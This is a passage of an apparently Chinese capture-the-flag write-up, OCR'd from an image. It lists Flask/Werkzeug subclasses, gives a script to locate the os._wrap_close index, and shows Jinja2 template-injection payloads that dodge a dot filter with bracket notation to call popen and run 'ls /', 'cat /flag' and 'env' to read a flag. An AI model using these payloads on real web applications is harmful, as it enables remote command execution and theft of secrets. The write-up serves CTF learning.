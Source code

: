 ```python
appers.auth.AuthorizationMixin'>, <class 'werkzeug.wrappers.auth.WWWAuthenticateMixin'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.user_agent.UserAgent'>, <class 'werkzeug.useragents._UserAgentParser'>, <class 'werkzeug.sansio.request.Request'>, <class 'werkzeug.wrappers.request.StreamOnlyMixin'>, <class 'werkzeug.sansio.response.Response'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.wrappers.response.ResponseStreamMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonRequestDescriptorsMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonResponseDescriptorsMixin'>, <class 'werkzeug.wrappers.etag.ETagRequestMixin'>, <class 'werkzeug.wrappers.etag.ETagResponseMixin'>, <class 'werkzeug.wrappers.user_agent.UserAgentMixin'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'uuid.UUID'>, <class 'gevent._fileobjectcommon.FileObjectBase'>, <class 'werkzeug.local.ContextVar'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalStack'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local._ProxyLookup'>, <class 'werkzeug.local.LocalProxy'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'werkzeug.routing.RuleFactory'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'werkzeug.routing.BaseConverter'>, <class 'werkzeug.routing.Map'>, <class 'werkzeug.routing.MapAdapter'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.scaffold.Scaffold'>, <class 'itsdangerous._json._CompactJSON'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.blueprints.BlueprintSetupState'>
"""
target="<class 'os._wrap_close'>"
def find_class(subclasses,target):
    class_list=subclasses.split(', ')
    for i in range(len(class_list)):
        if class_list[i]==target:
            print(str(i)+':'+target)
            break
        if i==len(class_list)-1:
            print('Not found!')

find_class(classes,target)
```
这里找到的索引为117。考虑到过滤了点号，可以利用`['']`绕过，可以构造如下payload:
1. payload1
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('ls /')['read']()}}`发现flag在根目录下；
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /flag')['read']()}}`这样子没有读出来不知道为什么，可能是因为根目录下的flag文件也是空的，但是这也算是一种方法。
2. payload2
   `{{''['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('env')['read']()}}`通过环境变量可以方便读出flag，通过测试，这里除了env,set与export都可以使用。
